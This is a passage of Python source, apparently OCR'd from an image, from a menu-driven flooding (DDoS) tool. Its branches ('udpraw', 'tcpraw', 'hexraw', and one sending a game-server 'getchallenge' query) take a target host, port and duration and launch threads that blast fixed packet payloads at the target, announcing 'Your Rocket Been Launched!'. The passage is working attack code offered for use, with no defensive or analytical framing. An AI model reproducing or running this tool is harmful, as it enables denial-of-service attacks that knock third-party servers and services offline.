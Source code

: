 				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\xff\xff\xff\xff\x67\x65\x74\x63\x68\x61\x6c\x6c\x65\x6e\x67\x65\x20\x30\x20\x22"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "udpraw":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\0\x14\0\x01\x03"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "tcpraw":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x55\x55\x55\x55\x00\x00\x00\x01"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "hexraw":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x55\x55\x55\x55\x00\x00\x00\x01"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "stdraw":
			try:
				if running >= 5:
					print("\033[31mThere is alrady an attack going.")
					main()
				else: